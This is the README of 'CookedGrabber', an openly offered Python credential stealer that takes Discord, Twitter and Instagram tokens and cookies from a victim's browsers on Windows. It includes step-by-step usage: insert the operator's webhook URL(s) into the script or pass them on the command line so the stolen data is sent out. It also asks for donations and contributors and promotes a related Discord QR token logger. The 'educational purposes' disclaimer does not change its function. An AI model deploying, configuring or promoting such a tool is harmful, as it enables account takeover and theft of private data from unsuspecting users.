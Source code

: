 <div align="center">
  <img src="https://imgur.com/lCyX6TX.png">
  <br>
  <br>
  <p>
    <img src="https://forthebadge.com/images/badges/made-with-python.svg">
    <img src="http://forthebadge.com/images/badges/built-with-love.svg">
  </p>
  <h4> Discord, Twitter, Instagram cookies and token grabber. Grabbing from all web browsers ! </h4>
  <p>
    <img alt="GitHub contributors" src="https://img.shields.io/github/contributors/mouadessalim/CookedGrabber">
    <img alt="GitHub issues" src="https://img.shields.io/github/issues/mouadessalim/CookedGrabber">
    <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=shields">
    <img alt="GitHub pull requests" src="https://img.shields.io/github/issues-pr/mouadessalim/CookedGrabber">
    <img alt="GitHub" src="https://img.shields.io/github/license/mouadessalim/CookedGrabber">
    <img alt="GitHub commit activity" src="https://img.shields.io/github/commit-activity/m/mouadessalim/CookedGrabber">
    <img alt="Maintenance" src="https://img.shields.io/maintenance/yes/2022">
  </p>
  <p align="center">
    <a href="#requirements">Requirements</a> •
    <a href="#screenshots">Screenshots</a> •
    <a href="#usage">Usage</a> •
    <a href="#disclaimer">Disclaimer</a> •
    <a href="#contributing">Contributing</a> •
    <a href="#license">License</a> •
    <a href="#other-projects">Other projects</a>
  </p>
  <p align="center">
    <i>Loved the tool? Please consider <strong>donating</strong> 💸 to help it improve!</i>
  </p>

  <p align="center">
    <a href='https://ko-fi.com/mouadessalim' target='_blank'><img height='23' width="100" src='https://cdn.ko-fi.com/cdn/kofi3.png?v=2' alt='Buy Coffee for mouadessalim' />
    </a>
    <a href="https://www.buymeacoffee.com/mouadessalim" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="23" width="100" style="border-radius:1px" />
    </a>
  </p>
</div>

# ⚡Requirements

- **Windows 10** OS only (*win32, for x86, x86_64, and arm64 architectures*)
- **Python 3.x** (*unless it exe converted, python 3.9 used for the project.*)
- **Modules:** `$ pip install -r requirements.txt` (unless it exe converted)

# 📷Screenshots

![App Screenshot](https://imgur.com/zMODaIm.png)

# 📈Usage

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
https://github.com/mouadessalim/CookedGrabber/blob/f753c4bea37241d94253a288dd223c5ae8f7f371/CookedGrabber.py#L290
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

# ❗Disclaimer
- **Only for educationnal puposes.**
- **We decline any responsability in case of misuse of this code.**

# ✨Contributing

Your contributions are always welcome! if you contribute we will show your account in the README file ! Please have a look at the [contribution guidelines](CONTRIBUTING.md) first. 🎉

## Authors ❤

<a href="https://github.com/mouadessalim/CookedGrabber/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=mouadessalim/CookedGrabber" />
</a>
<br>
<br>

> **Working on your first Pull Request?** You can learn how from this *free* series [How to Contribute to an Open Source Project on GitHub](https://kcd.im/pull-request)

# 📝License

The GNU General Public License v3.0 (GPL-3.0) 2022 - [mouadessalim](https://github.com/mouadessalim) & [crashixx](https://github.com/crashixx). Please have a look at the [LICENSE](LICENSE) for more details.

# 💡Other projects

If you love this repository you may be interested in these projects:

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=9P9&repo=Discord-QR-Token-Logger&show_owner=true)](https://github.com/9P9/Discord-QR-Token-Logger)
